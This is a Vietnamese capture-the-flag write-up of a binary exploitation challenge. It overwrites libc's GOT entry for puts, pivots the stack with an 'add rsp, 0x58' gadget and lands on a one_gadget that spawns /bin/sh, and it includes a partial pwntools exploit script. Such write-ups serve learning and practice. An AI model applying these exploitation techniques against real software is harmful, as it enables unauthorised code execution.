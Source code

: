 - lần input thứ 4 sẽ là vấn đề chính của ta , ta sẽ được nhập 1 địa chỉ , tiếp theo ta được input dữ liệu vào địa chỉ đó , ở bài này ```GOT``` sẽ không thể overwrite , các phương pháp như ```rtld``` cũng không thể thành không 

```c
 printf("| > ");
  __isoc99_scanf("%llx", &v4);
  printf("| > ");
  read(0, v4, 0x10uLL);
```

ta có thể xem blog này : https://github.com/nobodyisnobody/docs/blob/main/code.execution.on.last.libc/README.md#1---targetting-libc-got-entries

- target của bài này sẽ là overwrite ```got``` của libc , theo dõi backtrace , ta thấy ```puts``` sẽ gọi ```0x7ffff7dba490``` , vậy đơn giản là ta sẽ overwrite nó bằng ```one_gadget``` đúng không?  , tuy nhiên ở đây nó sẽ không thõa mãn bất cứ one_gadget nào , và lúc này 3 lần input trước đó sẽ phát huy tác dụng và đây cũng chính là giải pháp dự định của tác giả 

![image](https://hackmd.io/_uploads/S1hVPx_wkx.png)

![image](https://hackmd.io/_uploads/r1mZuxOP1l.png)

- 2 lần input đầu tiên ta sẽ setup các ```reg``` thõa mãn điều kiện ```one_gadget``` và lần input thứ 3 sẽ là one_gadget của ta , vậy lúc này ta sẽ overwrite ```libc_got``` bằng cái gì? , stack lúc này input1 của ta sẽ là ```rsp+0x58``` , vậy ta chỉ cần dùng gadget nào đó điều khiển nó trỏ đến ```input1``` và mọi thứ sẽ thành công

![image](https://hackmd.io/_uploads/rkO-YxuvJx.png)

```0x00000000000a0265: add rsp, 0x58; ret;``` đây sẽ là gadget thích hợp nhất để pivot stack

![image](https://hackmd.io/_uploads/Sk9-cxODkx.png)


script 

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./chal_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-2.35.so")

context.binary = exe
p = process()
#p = remote('172.31.2.2', 36902)
#gdb.attach(p,gdbscript='''
#           brva 0x0000000000001388
#           brva 0x00000000000013B7
#           ''')
p.recvuntil(b'Gift : ')
libc.address = int(p.recvline()[:-1],16) - libc.sym.puts
ld.address = libc.address + 0x22b000
log.info(f'ld: {hex(ld.address)}')
log.info(f'libc: {hex(libc.address)}')
log.info(f'system; {hex(libc.sym.system)}')
got = libc.address + libc.dynamic_value_by_tag("DT_PLTGOT")
log.info(f'got: {hex(got)}')

poprsiret = libc.address + 0x2be51 # pop rsi; ret
poprdxret = libc.address + 0x170337 # pop rdi; ret
onegadget = libc.address + 0xebc88 # execve("/bin/sh", rsi, rdx)

```